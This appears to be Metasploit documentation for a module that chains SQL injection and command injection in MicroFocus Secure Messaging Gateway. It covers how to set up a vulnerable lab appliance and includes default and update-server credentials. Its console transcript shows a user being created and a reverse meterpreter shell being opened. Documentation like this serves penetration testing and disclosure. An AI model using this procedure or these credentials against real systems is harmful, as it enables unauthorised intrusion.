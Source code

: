 ## Vulnerable Application

This module exploits a SQL injection and command injection vulnerability in MicroFocus Secure Messaging
Gateway. An unauthenticated user can execute a terminal command under the context of the web user.

One of the user supplied parameters of API endpoint is used by the application without input validation
and/or parameter binding, which leads to SQL injection vulnerability. Successfully exploiting this
vulnerability gives a ability to add new user onto system. manage_domains_dkim_keygen_request.php
endpoint is responsible for executing an operation system command. It's not possible to access this
endpoint without having a valid session.

Combining these vulnerabilities gives the opportunity execute operation system commands under the
context of the web user.
        
### Installation Steps

Complete the following trial submission form. You will be able to [download the product as a OVA or ISO file](https://www.microfocus.com/products/secure-gateway/trial/).
Installation instructions can be [found here](https://www.microfocus.com/documentation/secure-messaging-gateway/GWAVA%207.0/secure-gateway.pdf).

Please note that newer trial appliances by default are no longer vulnerable to the attacks used by
this module, but for testing purposes there is a way to make it vulnerable again.

First, go ahead and install the ISO. The appliance is based on Debian (for example, version 7 is
running a modified version of Ubuntu 16.04), so installation should be very similar to that.

After you log into the system as "gwava:gwava" (which is the default credential), you should see
this on your screen:

```
####################################

Please run the following command:

sudo /opt/gwavapreinstall.sh

####################################
```

The gwavapreinstall.sh script is what you need to modify. To do this, open it with your favorite text
editor with sudo like this:

```
$ sudo nano -w /opt/gwavapreinstall.sh
```

The bash script uses svn to download the latest software from the official site, but we can go back to
a specific commit to test the vulnerability again. Go ahead and find this line in the file:

```
sudo svn co --username gwavaupdate --password gwavam8 --non-interactive https://gwava7updates.gwava.com/update/gwava7/release $GWAVA_DIR
```

And modify to (the difference is the ```release@444```):

```
sudo svn co --username gwavaupdate --password gwavam8 --non-interactive https://gwava7updates.gwava.com/update/gwava7/release@444 $GWAVA_DIR
```

Make sure you save it, and then now run the script:

```
$ sudo /opt/gwavapreinstall.sh
```

After running the script, make sure to browse to https://[IP] to complete the installation. And then
after that, you are ready to test the module.

Note that the module may not work at the very first try, but the second time should work.

## Verification Steps

A successful check of the exploit will look like this:

1. Start `msfconsole`
2. `use exploit/linux/http/microfocus_secure_messaging_gateway `
3. Set `RHOST`
4. Set `LHOST`
5. Run `check`
6. **Verify** that you are seeing `The target is vulnerable`
7. Run `exploit`
8. **Verify** that you are seeing `Creating an user with appropriate privileges` in console.
9. **Verify** that you are seeing `User successfully created. Username : rmcynlbredxqh` in console.
10. **Verify** that you are seeing `Authenticating with created user` in console.
11. **Verify** that you are seeing `Successfully authenticated` in console.
12. **Verify** that you are seeing `Creating a domain with a malformed DKIM data` in console.
13. **Verify** that you are seeing `Payload is successfully implanted` in console.
14. **Verify** that you are seeing `Triggering an implanted payload` in console.
15. **Verify** that you are getting meterpreter session.

## Scenarios

```
msf > use exploit/linux/http/microfocus_secure_messaging_gateway 
msf exploit(linux/http/microfocus_secure_messaging_gateway) > set RHOSTS 12.0.0.25
RHOSTS => 12.0.0.25
msf exploit(linux/http/microfocus_secure_messaging_gateway) > set LHOST 12.0.0.1
LHOST => 12.0.0.1
msf exploit(linux/http/microfocus_secure_messaging_gateway) > run

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Creating an user with appropriate privileges
[+] User successfully created. Username : rmcynlbredxqh
[*] Authenticating with created user
[+] Successfully authenticated
[*] Creating a domain record with a malformed DKIM data
[+] Payload is successfully implanted
[*] Triggering an implanted payload
[*] Sending stage (37775 bytes) to 12.0.0.25
[*] Meterpreter session 10 opened (12.0.0.1:4444 -> 12.0.0.25:44332) at 2018-06-25 20:26:54 +0100
[*] Cleaning up...

meterpreter > pwd
/opt/gwava/gwavaman/http/admin/contents/ou
meterpreter >
```
